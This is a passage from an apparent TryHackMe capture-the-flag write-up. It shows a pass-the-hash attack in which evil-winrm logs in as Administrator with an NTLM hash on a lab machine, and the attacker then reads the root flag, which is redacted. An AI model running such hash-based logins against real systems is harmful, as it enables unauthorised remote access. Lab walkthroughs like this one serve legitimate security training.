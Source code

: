 ### What is the root flag?
#### ANS:  



### Pass the Hash 
#### Evil-WinRm with NTLM Hash!
```bash

[mentor@attackerVM]─[~/thm/zer0login]
└──╼ $evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.129.187 

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/20/2020   2:02 PM             24 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
"THM{DELTED_FOR_FLAG_PROTECTION}"
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```

---


<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
